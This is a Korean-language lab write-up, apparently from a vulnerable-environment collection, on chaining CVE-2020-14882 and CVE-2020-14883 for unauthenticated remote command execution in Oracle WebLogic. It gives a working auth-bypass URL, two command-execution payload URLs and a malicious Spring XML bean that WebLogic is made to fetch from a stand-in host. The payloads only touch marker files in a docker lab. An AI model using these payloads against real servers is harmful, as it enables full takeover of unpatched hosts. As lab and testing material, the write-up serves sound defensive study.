


# Weblogic 사전 인증 원격 명령 실행 (CVE-2020-14882, CVE-2020-14883)

Oracle WebLogic Server는 Java EE 표준을 사용하여 엔터프라이즈 애플리케이션을 구축하고 소유 비용이 저렴한 안정적이고 확장 가능한 런타임에 배포하는 업계 최고의 애플리케이션 서버입니다.

[Oracle Critical Patch Update Advisory - 2020년 10월] (https://www.oracle.com/security-alerts/cpuoct2020traditional.html), Oracle은 Chaitin Tech, CVE-2020-14882 및 CVE-2020-14883에서 보안 연구원 @Voidfyoo가 제출한 보안 취약점 2개를 수정했습니다.

CVE-2020-14882를 통해 원격 사용자는 관리자 콘솔 구성 요소에서 인증을 무시할 수 있고, CVE-2020-14883을 통해 인증된 사용자는 관리자 콘솔 구성 요소에서 모든 명령을 실행할 수 있습니다. 인증되지 않은 원격 공격자는 이 두 가지 취약성의 연쇄를 사용하여 HTTP를 통해 Oracle WebLogic 서버에서 임의의 명령을 실행하고 호스트를 완전히 제어할 수 있습니다.

References:

- https://www.oracle.com/security-alerts/cpuoct2020traditional.html
- https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

## Environment Setup

다음 명령을 실행하여 Weblogic 서버 12.2.1.3을 시작합니다:

```
docker compose up -d
```

시작이 완료되면 `http://your-ip:7001/console`을 방문하여 관리자 콘솔 로그인 페이지를 확인합니다.

## Exploit

이 URL을 사용하여 콘솔 구성 요소의 인증을 무시하는 방법:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```


지금은 웹쉘을 업로드할 권한이 없습니다:



두 번째 취약점인 CVE-2020-14883은 `com.tangosol.coherence.mvel2.sh .ShellSession`을 통한 것이며, 다른 하나는 `com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`를 통한 것입니다.

다음 URL을 방문하여 취약점 2개를 연결하고 `com.tangosol.coherence.mvel2.sh .ShellSession`의 명령을 실행합니다:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

'touch /tmp/success1'이 컨테이너 내부에서 성공적으로 실행되었습니다:



10.3.6에는 `com.tangosol.coherence.mvel2.sh .ShellSession` 클래스가 없기 때문에 이 공격 방법은 Weblogic 12.2.1 이상에서만 사용할 수 있습니다.

`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`는 CVE-2019-2725에서 처음 도입된 더 일반적인 공격이며 모든 웹 로직 버전에 사용할 수 있습니다.

`FileSystemXmlApplicationContext`를 이용하려면 조작된 XML 파일을 만들어 `http://example.com/rce.xml`과 같이 Weblogic이 액세스할 수 있는 서버에 제공해야 합니다:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

그런 다음 다음 URL을 통해 Weblogic이 XML을 로드하고 명령을 실행합니다:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```


이 공격의 단점은 Weblogic 서버가 악의적인 XML에 액세스할 수 있어야 한다는 것입니다.
